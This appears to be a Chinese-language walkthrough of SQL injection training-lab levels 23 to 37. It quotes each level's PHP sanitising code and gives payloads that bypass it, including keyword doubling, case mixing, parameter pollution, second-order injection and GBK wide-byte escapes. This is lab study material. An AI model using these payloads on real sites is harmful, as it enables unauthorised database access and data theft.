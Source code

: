 ## 23

2种注释符号被过滤(转义)了,所以加一个分号去闭合后一个分号:

``` ?id=0%27union%20select%201,2,%273 ``` 

## 24

mysql_escape_string 在登录与注册的时候对输入进行转义,但是在修改密码的时候直接使用了session的密码而没有过滤
```
$username= $_SESSION["username"];
```
形成二次注入

ps:这题在我这里有BUG无法登录???

## 25 绕过and or过滤

```
	$id= preg_replace('/or/i',"", $id);			//strip out OR (non case sensitive)
	$id= preg_replace('/AND/i',"", $id);		//Strip out AND (non case sensitive)
```
方法1 使用 aandnd oorr

方法2 使用&& || 

## 26 绕过注释与空格过滤

```
	$id= preg_replace('/or/i',"", $id);			//strip out OR (non case sensitive)
	$id= preg_replace('/and/i',"", $id);		//Strip out AND (non case sensitive)
	$id= preg_replace('/[\/\*]/',"", $id);		//strip out /*
	$id= preg_replace('/[--]/',"", $id);		//Strip out --
	$id= preg_replace('/[#]/',"", $id);			//Strip out #
	$id= preg_replace('/[\s]/',"", $id);		//Strip out spaces
	$id= preg_replace('/[\/\\\\]/',"", $id);		//Strip out slashes
```

所有的特殊字符都被替换了,and与or还可以用以前的方法绕过

使用%A0可能可以绕过空格(这取决与mysql与php的版本?

## 27-28 绕过select union 过滤
```
$id= preg_replace('/[\/\*]/',"", $id);		//strip out /*
$id= preg_replace('/[--]/',"", $id);		//Strip out --.
$id= preg_replace('/[#]/',"", $id);			//Strip out #.
$id= preg_replace('/[ +]/',"", $id);	    //Strip out spaces.
$id= preg_replace('/select/m',"", $id);	    //Strip out spaces.
$id= preg_replace('/[ +]/',"", $id);	    //Strip out spaces.
$id= preg_replace('/union/s',"", $id);	    //Strip out union
$id= preg_replace('/select/s',"", $id);	    //Strip out select
$id= preg_replace('/UNION/s',"", $id);	    //Strip out UNION
$id= preg_replace('/SELECT/s',"", $id);	    //Strip out SELECT
$id= preg_replace('/Union/s',"", $id);	    //Strip out Union
$id= preg_replace('/Select/s',"", $id);	    //Strip out select
```
由于不区分大小写,基本的方法:SeLeCt

也可以这样模拟替换结果:
seleselselectectct

## 29-31 waf白名单

注意,要访问login.php

```
	$match = preg_match("/^\d+$/", $input);

	if($match)
		//echo "you are good";
	else
		//echo "you are bad";
```
使用了数字的白名单

但是,在这之前对输入进行了分割:
```
$qs_array= explode("&",$q_s);


foreach($qs_array as $key => $value)
{
	$val=substr($value,0,2);
	if($val=="id")
	{
		$id_value=substr($value,3,30); 
		return $id_value;
		echo "<br>";
		break;
	}

}
```
就可以:
?id=1&id=' union select 1,2,3 --+

## 32-34 转义quote

```
$string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          //escape any backslash
$string = preg_replace('/\'/i', '\\\'', $string);                               //escape single quote with a backslash
$string = preg_replace('/\"/', "\\\"", $string);                                //escape double quote with a backslash
```

但是给了提示是编码:mysql_query("SET NAMES gbk");

就是说想办法在 ' 之前加上一个编码使他与后面的字符混合在解析的时候解析出 '

?id=-1%df%27union%20select%201,user(),3--+

本质上post也差不多

## 35

 数字型可能不需要处理对quote的转义

 ?id=0%20union%20select%201,2,3%23

## 36-37

mysql_real_escape_string() 函数转义 SQL 语句中使用的字符串中的特殊字符。

下列字符受影响：
```
\x00
\n
\r
\
'
"
\x1a
```

由于还是GBK本质上和之前的没什么区别